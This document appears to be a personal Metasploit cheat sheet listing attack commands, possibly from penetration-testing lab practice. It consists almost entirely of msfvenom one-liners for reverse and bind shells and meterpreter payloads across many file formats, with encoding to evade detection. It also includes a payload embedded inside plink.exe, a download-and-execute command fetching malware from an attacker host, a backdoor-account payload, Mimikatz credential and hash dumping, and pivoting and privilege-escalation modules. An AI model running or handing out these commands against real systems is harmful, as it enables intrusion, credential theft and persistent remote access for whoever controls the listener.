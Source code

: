 ## msfvenom
-----

#### var name "payload" and type python, windows non-staged reverse shell
-----
```msfvenom -p windows/shell_reverse_tcp -f py --var-name payload LHOST=10.11.0.111 LPORT=7171```


#### windows non-staged reverse shell, x86, C, exclude x00,x0a,x0d, encode shikata
-----
```msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4448 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai```


#### windows staged reverse shell, output to shell.exe
-----
```msfvenom -p windows/shell/reverse_tcp LHOST=10.11.0.111 LPORT=4447 -f exe -o shell.exe```


#### linux x86, python, staged meterpreter
-----
```msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.111 LPORT=6969 -f python```


#### windows non-staged meterpreter reverse shell, VBScript
-----
```msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.0.103 LPORT=4444 EXITFUNC=thread -f vbs --arch x86 --platform win```


#### windows aspx non-staged reverse shell
-----
```msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4450 -e x86/shikata_ga_nai -o shell.aspx```


#### PHP meterpreter staged reverse shell
-----
```msfvenom -p php/meterpreter/reverse_tcp LHOST=10.11.0.111 LPORT=4443 -f raw -o shell.php```


#### Java WAR non-staged reverse shell
-----
```msfvenom -p java/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 -f war -o shell.war```


#### linux x86 bind shell, shikata encoded, excluded values
-----
```msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b “\x00\x0a\x0d\x20” -e x86/shikata_ga_nai```


#### FreeBSD ELF reverse shell, non-staged
-----
```msfvenom -p bsd/x64/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 -f elf -o shell.elf```


#### Linux non-staged reverse shell (shellcode)
-----
```msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 -e x86/shikata_ga_nai -f c```


#### Windows Python non-staged reverse shell
-----
```msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 EXITFUNC=thread -f python -o shell.py```


#### Windows Javascript non-staged reverse shell with NOPs
-----
```msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 -f js_le -e generic/none -n 18```


#### Windows Powershell non-staged reverse shell
-----
```msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1```


#### Windows x64 non-staged reverse shell
-----
```msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 -f exe -o shell.exe```


#### Windows non-staged reverse shell embedded into plink
-----
```msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe```


#### Download and execute (windows)
-----
```msfvenom -p windows/download_exec URL=http://10.11.0.111/malware.exe -f py --var-name shellcode```


#### Create user (windows)
-----
```msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe```


## Mimikatz
-----

#### Password and Hash gathering (windows)
-----
*In meterpreter session*
```
load mimikatz
msv
mimikatz_command -f samdump::hashes
mimikatz_command -f sekurlsa::searchPasswords
```


## Other
-----

#### SOCKS4 proxy through target
-----
```
run autoroute -s 10.1.1.0/24
run autoroute -p
use auxiliary/scanner/portscan/tcp 
auxiliary/server/socks4a
```


#### Attempt to connect back on all ports (when unsure of egress rules)
-----
```payload/reverse_tcp_allports```


#### Set global parameters
-----
```setg```


#### add nmap scan to database
-----
```db_nmap 10.11.1.0/24 --top-ports 20```


#### post exploitation / privesc
-----
```post/multi/recon/local_exploit_suggester```




